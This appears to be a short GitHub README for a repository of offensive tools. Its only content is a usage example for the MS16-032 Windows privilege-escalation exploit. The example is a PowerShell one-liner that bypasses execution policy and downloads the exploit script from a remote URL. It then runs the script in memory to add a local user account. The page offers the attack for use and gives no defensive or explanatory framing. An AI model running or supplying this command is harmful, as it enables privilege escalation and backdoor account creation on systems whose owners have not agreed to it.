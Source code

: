 # Tools

# Invoke-MS16-032 
## Create Account Example:
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DannyChen2023/Tools/main/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test test /add'"
